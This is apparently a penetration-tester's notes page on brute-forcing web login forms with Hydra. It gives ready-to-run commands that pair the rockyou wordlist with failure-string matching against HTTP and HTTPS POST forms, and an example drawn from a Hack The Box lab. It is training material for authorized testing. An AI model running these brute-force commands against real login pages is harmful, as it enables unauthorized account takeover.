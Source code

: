 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Hydra

## Usage

{% tabs %}
{% tab title="HTTP" %}
{% code overflow="wrap" %}
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt monitoring.inlanefreight.local http-post-form '/login.php:username=^USER^&password=^PASS^:F=<div class="log-form">' -f -u
```
{% endcode %}
{% endtab %}

{% tab title="HTTPS" %}
{% code overflow="wrap" %}
```bash
hydra -L users -P passwords streamio.htb https-post-form '/login.php:username=^USER^&password=^PASS^:F=<div class="alert alert-danger">' -I
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Example

{% hint style="info" %}
The below example has been taken from the [Web Enumeration & Exploitation](https://academy.hackthebox.com/module/163/section/1544) of HTB's Attacking Enterprise Networks module.
{% endhint %}

We find an HTTP login form (Figure 1) and select something unique from its source code (Figure 2).

<figure><img src="../../../.gitbook/assets/hydra_http_login_form.png" alt=""><figcaption><p>Figure 1: An HTTP login form.</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/hydra_http_login_form_source.png" alt=""><figcaption><p>Figure 2: A unique string within the source code of a failed login attempt.</p></figcaption></figure>

Then, we pass this information to `hydra` and perform the BFA[^1] against the login form (Figure 3).

{% code overflow="wrap" %}
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt monitoring.inlanefreight.local http-post-form '/login.php:username=^USER^&password=^PASS^:F=<div class="log-form">' -f -u
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/hydra_http_bfa.png" alt=""><figcaption><p>Figure 3: Performing a BFA on an HTTP login form.</p></figcaption></figure>

[^1]: Brute Force Attack
